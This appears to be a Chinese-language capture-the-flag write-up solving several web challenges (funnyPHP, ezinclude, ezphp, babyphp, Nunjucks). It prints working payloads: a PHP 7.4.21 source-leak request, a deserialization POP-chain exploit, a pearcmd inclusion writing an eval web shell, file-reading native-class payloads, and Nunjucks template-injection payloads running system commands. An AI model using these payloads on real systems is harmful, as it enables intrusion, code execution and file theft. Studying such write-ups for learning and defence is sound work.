







## funnyPHP


首先给了一个 `phpinfo()`，给了 PHP version 7.4.21，并且说 `puzzle.php` 里面有东西，去到 `puzzle.php`



根据给的 `phpinfo()` 信息，PHP 版本是 7.4.21，存在远程源码泄露漏洞

```none
GET /puzzle.php HTTP/1.1
Host: 47.104.14.160:3345


GET / HTTP/1.1
```


这里注意要把 `content-length` 关掉，攻击效果如图




得到源码，构造 pop 链攻击，这里就比较简单了，只需要让 C 类里面的 `$this->b=true` 即可，并且构造 sdpc 为 `Evil::getflag`，最终 EXP 如下

```php
<?php
error_reporting(0);

class A{
    public $sdpc = ["sdpc" => ["Evil","getflag"]];
}


class C{
    public $b;
    protected $c;

    function __construct(){
        $this->c = new A();
        $this->b =true;
    }

}

$a = new C();
$b = serialize($a);
echo urlencode($b);

?>
```



## ezinclude

简单的文件包含，最简单的过滤没做，可以直接读 `etc/passwd`



但是这里读不到 flag，尝试写入🐎，如果要写🐎，并且在伪协议被 ban 的情况下，明显是 P 神的这篇文章

https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html

用 pearcmd 的方式进行文件包含写 shell

- config-create

payload

```none
?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=@eval($_POST['cmd']);?>+/tmp/test.php
```

连马拿 flag


## ezphp

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$g = $_GET['g'];
$t = $_GET['t'];
echo new $g($t);
```

考的原生类

```payload
/?g=DirectoryIterator&t=glob://f*
```

读取到存在 flag.php，读



原生类读 flag

```payload
/?g=SplFileObject&t=php://filter/convert.base64-encode/resource=flag.php
```




PD9waHANCiRmbGFnID0gImZsYWd7ZDczMmVlYTAtNjNkYy00OTA5LWE5YjAtYTYzOWQ4ZTE4YWE2fSI7DQo/Pg==

$flag = "flag{d732eea0-63dc-4909-a9b0-a639d8e18aa6}

## babyphp

```php
<?php
highlight_file(__FILE__);
error_reporting(0);

$num = $_GET['num'];

if (preg_match("/\'|\"|\`| |<|>|?|\^|%|\$/", $num)) {
    die("nononno");
}

if (eval("return ${num} != 2;") && $num == 0 && is_numeric($num) != true) {
    system('cat flag.php');
} else {
    echo '2';
}
```

简单题，payload

```payload
/?num=%00000
```




## Nunjucks


Nunjucks 是一个模板引擎，这个题目尝试用 1，1 登录，发现 username 似乎是被拼接了，那么 ssti 点应该是在 username 的输入框里头

探测漏洞，`username={{7*7}}`，回显是 49，证明存在 SSTI


先用这个 payload 打，发现会被拦截

```payload
{{ b['eval']('__import__("os").popen("id").read()') }}
```

换了一个 payload 打

```payload
{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}
```

还是会被 ban，尝试其他 payload，最终还是没打出来


